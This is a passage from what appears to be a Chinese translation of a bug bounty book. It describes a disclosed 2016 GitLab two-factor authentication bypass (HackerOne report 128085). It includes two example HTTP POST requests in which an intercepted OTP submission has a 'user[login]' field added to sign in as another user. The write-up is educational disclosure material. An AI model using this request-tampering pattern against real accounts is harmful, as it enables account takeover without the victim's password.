 ### **绕过 GitLab 双因素认证**

**难度：** 中等

**URL:** 不适用

**来源：** *[`hackerone.com/reports/128085/`](https://hackerone.com/reports/128085/)*

**报告日期：** 2016 年 4 月 3 日

**奖励支付：** 不适用

*双因素认证（2FA）* 是一种安全功能，它在网站登录过程中增加了第二个步骤。传统上，用户登录网站时只需输入用户名和密码进行身份验证。而在启用 2FA 的情况下，网站要求在输入密码之外进行额外的身份验证步骤。通常，网站会通过电子邮件、短信或身份验证器应用程序发送授权码，用户在提交用户名和密码后必须输入该授权码。这些系统可能很难正确实现，因此是应用逻辑漏洞测试的良好候选对象。

2016 年 4 月 3 日，Jobert Abma 在 GitLab 中发现了一个漏洞。该漏洞允许攻击者在启用 2FA 时，不知道目标用户的密码也能登录目标账户。Abma 注意到，在用户输入用户名和密码后，网站会向用户发送一个验证码。用户提交验证码后，系统会发出以下`POST`请求：

```
   POST /users/sign_in HTTP/1.1

   Host: 159.xxx.xxx.xxx

   --snip--

   ----------1881604860

   Content-Disposition: form-data; name="user[otp_attempt]"

➊ 212421

   ----------1881604860--
```

`POST`请求将包括一个 OTP 令牌➊，该令牌用于验证用户进行 2FA 的第二步。OTP 令牌仅在用户已输入用户名和密码后生成，但如果攻击者试图登录自己的账户，他们可以使用 Burp 等工具拦截请求，并将请求中的用户名替换为另一个用户名。这将改变他们登录的账户。例如，攻击者可以尝试如下方式登录名为`john`的用户账户：

```
   POST /users/sign_in HTTP/1.1

   Host: 159.xxx.xxx.xxx

   --snip--

   ----------1881604860

   Content-Disposition: form-data; name="user[otp_attempt]"

   212421

   ----------1881604860

➊ Content-Disposition: form-data; name="user[login]"

   john

   ----------1881604860--
```
